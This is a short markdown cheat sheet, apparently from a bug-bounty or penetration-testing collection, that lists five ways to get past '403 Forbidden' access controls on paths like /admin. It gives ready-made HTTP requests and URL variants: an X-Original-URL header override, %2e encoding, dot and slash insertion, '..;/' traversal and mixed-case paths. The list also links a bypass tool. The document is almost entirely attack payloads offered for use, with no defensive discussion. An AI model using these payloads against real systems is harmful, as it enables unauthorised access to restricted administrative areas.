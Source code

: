 # 403 Forbidden Bypass

1. Using "X-Original-URL" header
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```
https://github.com/yunemse48/403bypasser


2. Appending **%2e** after the first slash
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) and slash (/) in the URL
```
http://target.com/admin/. => 200
http://target.com//admin// => 200
http://target.com/./admin/./ => 200
```

4. Add "..;/" after the directory name
```
    http://target.com/admin..;/
```

5. Try to uppercase the alphabet in the url
```
http://target.com/aDmIN
```

Source: [@iam_j0ker](https://twitter.com/iam_j0ker) 

